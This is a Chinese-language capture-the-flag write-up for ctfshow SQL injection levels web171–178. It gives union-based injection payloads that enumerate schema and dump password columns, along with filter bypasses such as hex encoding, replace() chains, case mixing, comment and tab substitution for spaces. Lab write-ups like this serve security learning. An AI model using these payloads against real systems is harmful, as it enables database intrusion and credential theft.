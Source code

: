 ctfshow sql

---

检验一下这周成果

### web171

```python
-1' union select 1,2,database()--+   
#ctfshow_web
-1'union select 1,2,group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'--+
#ctfshow_user
-1'union select 1,2,group_concat(column_name)from information_schema.columns where table_name='ctfshow_user'--+
#id,username,password
-1'union select 1,2,group_concat(password)from ctfshow_web.ctfshow_user--+
#	admin,111,222,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,ctfshow{dcc61882-9232-4074-aef6-f9dd3b8432e8}
```



### web172

```python
-1'union select 1,database()--+
#ctfshow_web
-1'union select 1,group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'--+
#ctfshow_user,ctfshow_user2
-1'union select 1,group_concat(column_name)from information_schema.columns where table_name='ctfshow_user'--+
#id,username,password
```

1. ```python
   -1'union select 1,group_concat(password)from ctfshow_web.ctfshow_user--+
   #,flag_not_here
   ```

2. ```python
   -1'union select 1,group_concat(password)from ctfshow_web.ctfshow_user2--+
   #ctfshow{81b78f4d-57ff-439d-8f60-c763a7ef138e}
   ```

或者：

```python
-1' union select 1,(select password from ctfshow_user2 where username='flag')--+
```



### web173

注意到这个返回逻辑：

```php
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

我们采用hex编码后绕过即可

```python
-1' union select 1,2,(select hex(password) from ctfshow_user3 where username='flag')--+
```

```
63746673686F777B33646465656333372D353035352D343734652D386638342D6362613565626363303938317D
ctfshow{3ddeec37-5055-474e-8f84-cba5ebcc0981}
```



### web174

```php
//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

不能使用数字了

看到的一种方法采用`replace`

```
replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,1,'A'),2,'B'),3,'C'),4,'D'),5,'E'),6,'F'),7,'G'),8,'H'),9,'I'),0,'J');
```

把数字换成字母

为了得到解码结果我用Python写了个小脚本

```
def decode_password(encoded_password):
    # 字母到数字的映射
    mapping = {
        'A': '1',
        'B': '2',
        'C': '3',
        'D': '4',
        'E': '5',
        'F': '6',
        'G': '7',
        'H': '8',
        'I': '9',
        'J': '0'
    }

    # 替换字母为数字
    decoded_password = ''.join(mapping.get(char, char) for char in encoded_password)

    return decoded_password


encoded_password = "aCaAAfAF-DFeG-DcEF-aCCH-CdFEJdAJIACD"
decoded_password = decode_password(encoded_password)
print("解码结果:", decoded_password)

```





### web176

正常操作发现过滤了union 和 select

采用大小写绕过可以成功

```python
-1'unIoN sElecT 1,2,group_concat(password)from ctfshow_web.ctfshow_user--+
#admin,111,222,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,passwordAUTO,ctfshow{9779c6ab-3826-4db2-b190-a988784fe4c9}
```



### web177

`union` 和`select`正常，发现应该是空格被过滤了,采用`/**/`

```
-1'union/**/select/**/1,2,group_concat(password)from/**/ctfshow_web.ctfshow_user--+
-1'/**/union/**/select/**/1,2,password/**/from/**/ctfshow_user/**/where/**/username='flag'%23
```



### web178

试了一下也是过滤空格，但是`/**/`，`+`无法使用，

学习到了`%09` ---> 表示水平制表符 (Tab)。

```python
-1'%09union%09select%091,2,password%09from%09ctfshow_user%09where%09username='flag'%23
#ctfshow{e1b39b75-ab9c-469c-aee2-6992a27fc792}
```


